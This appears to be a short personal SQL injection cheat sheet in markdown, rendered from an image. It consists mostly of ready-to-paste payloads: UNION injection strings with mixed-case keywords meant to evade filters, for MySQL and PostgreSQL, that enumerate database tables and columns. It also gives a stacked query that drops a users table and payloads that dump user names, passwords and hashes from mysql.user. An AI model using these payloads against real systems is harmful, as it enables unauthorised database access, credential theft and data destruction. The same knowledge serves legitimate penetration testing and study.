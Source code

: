 ```sql
SELECT * FROM INFORMATION_SCHEMA.TABLES

-- Get specific table information from a specific database
SELECT TABLE_NAME,TABLE_SCHEMA FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='[database_name]'

-- Union Query with group_concat in MySQL
UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema='[database_name]' -- -

-- Union Query with array_agg in PostgreSQL
' UNION SELECT NULL, NULL, NULL, NULL, CAST((SELECT array_to_string(array_agg(table_name), ',') from information_schema.tables) AS integer), NULL, NULL, NULL--
```

You can then query `information_schema.columns` to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = '[table_name]'

-- Get specific information from columns
SELECT COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'

-- Union query with group_concat() in MySQL
' UniOn Select 1,2,3,4,...,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=..-- -
```

***Important Table Names :-***
1) TABLE_CATALOG 
2) TABLE_SCHEMA
3) **TABLE_NAME** 
4) **COLUMN_NAME**
5) DATA_TYPE

```sql
-- Dump Credentials from a database 
```

---
# More info on SQLi
For **PostgreSQL** & **MSSQL**, you can use `;` for multiple queries
```sql
SELECT * FROM logins WHERE username LIKE '%1'; DROP TABLE users;--'
```
Not possible with **MySQL**


```sql
-- Dump password of standard users in the table
UNION SELECT 1, user, password, authentication_string FROM mysql.user;

-- With group_concat()
test" UNION SELECT 1, gRoUp_cOncaT(0x7c,user,0x7C), gRoUp_cOncaT(0x7c,password,0x7C), gRoUp_cOncaT(0x7c,authentication_string,0x7C) FROM mysql.user;-- -
```

---